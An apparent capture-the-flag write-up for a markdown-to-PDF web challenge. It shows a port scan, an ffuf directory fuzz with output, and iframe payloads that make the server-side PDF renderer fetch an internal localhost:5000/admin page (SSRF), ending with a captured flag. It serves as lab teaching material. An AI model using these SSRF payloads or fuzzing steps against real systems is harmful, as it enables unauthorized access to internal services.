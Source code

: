 ```yaml
---
sticker: lucide//code
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |
| 5000 | RSTP    |



# RECONNAISSANCE
---

If we check the web application, we can see this:


![](images/Pasted%20image%2020250617123928.png)

As seen, we can convert markdown to pdf, this is highly vulnerable since at its core it blindly hands our Markdown straight off to a server‑side renderer, whether that’s a headless browser or Pandoc+LaTeX with no filtering or authentication. 

That means we can sneak in `<script>` tags or raw LaTeX commands and make the server fetch internal URLs (like `localhost:5000/resource`) or even execute shell commands. In short, untrusted input becomes powerful SSRF or RCE, exposing private admin panels and letting attackers run arbitrary code.

If we fuzz, we can find this:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.129.226/FUZZ" -ic -c -t 200 -e .php,.html,.txt,.git,.js

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.129.226/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .php .html .txt .git .js
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

admin                   [Status: 403, Size: 166, Words: 15, Lines: 5, Duration: 231ms]
```

We can find an admin resource on here, if we try accessing it, this happens:

![](images/Pasted%20image%2020250617124337.png)

Based on that, we now we can exploit the md2pdf site to achieve access to the admin resource, let's do it.


# EXPLOITATION
---

First of all, we need to exfiltrate the data, we can use the following payload:

```js
<iframe src="http://localhost:5000"></iframe>
```

We use iframe to achieve `SSRF`, basically the pdf engine will render the internal resource and give us access to it, let's test it out:



![](images/Pasted%20image%2020250617125048.png)

![](images/Pasted%20image%2020250617125056.png)

It works, let's read admin resource then:

```js
<iframe 
  src="http://localhost:5000/admin" 
  style="width:100%; height:1000px; border:none; overflow:hidden;">
</iframe>
```

![](images/Pasted%20image%2020250617125137.png)

![](images/Pasted%20image%2020250617125144.png)

We got our flag:

```
flag{1f4a2b6ffeaf4707c43885d704eaee4b}
```

![](images/Pasted%20image%2020250617125225.png)

